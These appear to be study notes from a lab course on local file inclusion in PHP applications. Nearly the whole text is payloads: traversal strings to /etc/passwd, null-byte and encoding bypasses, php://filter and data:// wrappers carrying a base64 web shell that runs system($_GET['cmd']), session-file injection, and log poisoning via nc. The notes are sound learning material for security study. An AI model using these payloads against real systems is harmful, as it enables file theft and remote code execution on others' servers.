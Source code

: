 ![[target files.png]]

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
### Tricks

* %00 - PHP stops reading file path and name, e. g. ../../../etc/passwd%00.php
* ....//....//....//etc/passwd - to bypass auto replace


##### PHP Wrappers

* `php://filter/convert.base64-encode/resource=/etc/passwd`
* `data:text/plain,<?php%20phpinfo();%20?>`

![[php filter.png]]


![[file links.png]]
We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`



#### Obfuscation
1. **URL Encoded Bypass:** The attacker can use the URL-encoded version of the payload like `?file=%2e%2e%2fconfig.php`. The server decodes this input to `../config.php`, bypassing the filter.
    
2. **Double Encoded Bypass:** The attacker can use double encoding if the application decodes inputs twice. The payload would then be `?file=%252e%252e%252fconfig.php`, where a dot is `%252e`, and a slash is `%252f`. The first decoding step changes `%252e%252e%252f` to `%2e%2e%2f`. The second decoding step then translates it to `../config.php`.
    
3. **Obfuscation:** An attacker could use the payload `....//config.php`, which, after the application strips out the apparent traversal string, would effectively become `../config.php`.
###### Session files
1. Inject `<?php echo phpinfo(); ?>` into session.
2. Access URL to execute the code:
`sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`

###### Log poisoning
```php
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
```

Then using LFI access the log file.



